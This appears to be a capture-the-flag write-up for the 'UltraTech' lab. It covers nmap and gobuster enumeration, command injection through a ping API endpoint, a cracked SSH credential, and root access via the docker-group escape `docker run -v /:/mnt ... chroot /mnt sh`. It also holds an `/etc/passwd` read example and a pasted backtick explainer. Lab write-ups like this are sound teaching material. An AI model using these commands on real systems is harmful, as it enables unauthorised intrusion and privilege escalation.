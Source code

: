 # UltraTech

## NMAP

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -p- -Pn 10.10.134.104
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-21 07:50 EST
Stats: 0:00:05 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 5.60% done; ETC: 07:51 (0:01:24 remaining)
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 79.59% done; ETC: 07:52 (0:00:27 remaining)
Nmap scan report for 10.10.134.104
Host is up (0.090s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 143.61 seconds

┌──(kali㉿kali)-[~]
└─$ nmap -sCV -p 21,22,8081,31331 10.10.134.104

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-21 07:53 EST
Nmap scan report for 10.10.134.104
Host is up (0.069s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.15 seconds

```


Nodejs and apache running og a weird port.

## Gobuster

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.134.104:31331 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.134.104:31331
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 324] [--> http://10.10.134.104:31331/images/]
/css                  (Status: 301) [Size: 321] [--> http://10.10.134.104:31331/css/]
/js                   (Status: 301) [Size: 320] [--> http://10.10.134.104:31331/js/]
/javascript           (Status: 301) [Size: 328] [--> http://10.10.134.104:31331/javascript/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```


## Web


Some usernames found on the website
<img src="images/users.png">

## API Calls

<img src="images/api.png">

<img src="images/api-2.png">


It is calling a ping command on the host machine. Maybe we can use this to get RCE.


<img src="images/auth.png">

We can also use this auth route to get some usernames and passwords

<img src="images/api-3.png">


<img src="images/api-4.png">




Text between backticks is executed and replaced by the output of the command (minus the trailing newline characters, and beware that shell behaviors vary when there are NUL characters in the output). That is called command substitution because it is substituted with the output of the command. So if you want to print 5, you can't use backticks, you can use quotation marks, like echo "$b" or just drop any quotation and use echo $b.

As you can see, since $b contains 5, when using backticks bash is trying to run command 5 and since there is no such command, it fails with error message.

To understand how backticks works, try running this:

$ A=`cat /etc/passwd | head -n1`
$ echo "$A"



### Passwords

<img src="images/crack.png">
<img src="images/crack2.png">

r00t:n100906


We can use these credentials for ssh


## PrivEsc

```                          
OS: Linux version 4.15.0-46-generic (buildd@lgw01-amd64-038) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #49-Ubuntu SMP Wed Feb 6 09:33:07 UTC 2019
User & Groups: uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
Hostname: ultratech-prod

```
We are a member of docker user group. If docker can be run without sudo then we can get read any file in the OS


```
r00t@ultratech-prod:~$ docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
```

We can run the previous command without sudo, so we can exploit docker to escalate privledges


```
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        4 years ago         15.8MB
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# pwd
/
# cd root
# ls
private.txt
# cat private.txt
# Life and acomplishments of Alvaro Squalo - Tome I

Memoirs of the most successful digital nomdad finblocktech entrepreneur
in the world.

By himself.

## Chapter 1 - How I became successful

```